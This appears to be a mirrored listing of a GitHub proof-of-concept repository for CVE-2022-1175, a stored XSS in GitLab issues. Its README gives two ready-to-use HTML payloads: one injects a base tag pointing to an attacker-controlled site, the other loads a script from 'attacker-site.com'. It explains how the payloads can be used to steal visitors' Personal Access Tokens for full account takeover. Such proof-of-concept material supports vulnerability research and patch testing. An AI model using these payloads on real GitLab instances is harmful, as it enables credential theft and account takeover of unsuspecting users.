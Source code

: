 # CVE-2022-1175

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Greenwolf](https://github.com/Greenwolf) |
| Url      | [https://github.com/Greenwolf/CVE-2022-1175](https://github.com/Greenwolf/CVE-2022-1175)                                               |
| Stars    | 1                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-1175

Gitlab Stored XSS, can be set in an issue on a project, either your own or another users. Allows attacks such as creating & stealing a Personal Access Token (PAT) of anyone who visits an issue. PAT's can then provide full Gitlab API access as that user equivilent to a full account takeover. 

Can be abused by changing the base of the project to your site, so scripts are sourced by your site. Change javascript on your site to match the script names being called in the page. This can break things on the page though.

```<pre data-sourcepos="&#34;%22 href=&#34;x&#34;></pre><base href=http://unsafe-website.com/><pre x=&#34;"><code></code></pre>```

Standard script include also works depending on the sites CSP policy. This is more stealthy.

```<pre data-sourcepos="&#34;%22 href=&#34;x&#34;></pre><script src="https://attacker-site.com/bad.js"></script><pre x=&#34;"><code></code></pre>```

GitLab devs handily included the full XSS string in the code which can be found here:

https://gitlab.com/gitlab-org/gitlab/-/compare/v14.9.1-ee...v14.9.2-ee?from_project_id=278964&page=4

*Reference:*

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1175



## Get the content

```
git clone https://github.com/Greenwolf/CVE-2022-1175
cd CVE-2022-1175
```

{% embed url="https://github.com/Greenwolf/CVE-2022-1175" %}

<figure><img src="https://avatars.githubusercontent.com/u/48361984?v=4" alt=""><figcaption><p>Greenwolf</p></figcaption></figure>
